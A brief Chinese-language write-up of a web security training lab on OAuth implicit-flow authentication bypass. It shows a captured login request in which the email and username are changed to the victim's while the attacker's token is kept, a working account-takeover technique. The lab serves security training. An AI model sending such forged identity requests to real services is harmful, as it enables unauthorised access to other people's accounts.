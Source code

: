 # Lab: Authentication bypass via OAuth implicit flow

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net.

You can log in with your own social media account using the following credentials: wiener:peter.

## OAuth Authentication
* 題目說有驗證，用 burp 抓一下可以看到其中一個封包
```
POST /authenticate HTTP/1.1
Host: ac351f461f9fab1cc115b73400c70071.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: application/json
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://ac351f461f9fab1cc115b73400c70071.web-security-academy.net/oauth-callback
Content-Type: application/json
Origin: https://ac351f461f9fab1cc115b73400c70071.web-security-academy.net
Content-Length: 111
Connection: close
Cookie: session=bmd6wJDm5vlF8oak7nIWqer7hMxZwHyK
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 127.0.0.1

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"gQ-Dhz7q6mlx4xIge8oYskseegX8Fdy2_Nt7qy2babZ"}
```
* 改成這樣送出就可以了